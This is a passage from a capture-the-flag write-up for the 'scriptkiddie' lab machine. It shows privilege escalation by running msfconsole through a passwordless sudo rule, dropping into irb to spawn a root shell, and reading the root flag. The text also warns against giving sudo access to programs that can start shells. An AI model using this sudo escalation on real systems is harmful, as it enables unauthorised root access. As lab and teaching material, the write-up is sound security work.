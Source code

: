 ## msfconsole

Pretty straight forward here, sudo -l is a common place to look msfconsole no doubt gives us access to a shell to manipulate the local filesystem and with sudo that shell is root. Always be weary of giving sudo access to commands or programs with ways to make their own shells. 

The payload: [https://gtfobins.github.io/gtfobins/msfconsole/](https://gtfobins.github.io/gtfobins/msfconsole/)

```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
sudo /opt/metasploit-framework-6.0.9/msfconsole

msf6 > irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object

system("/bin/sh")
Switch to inspect mode.
irb: warn: can't alias jobs from irb_jobs.
>> system("/bin/sh")
whoami
root
cat /root/root.txt
d45dade12------------------------
```

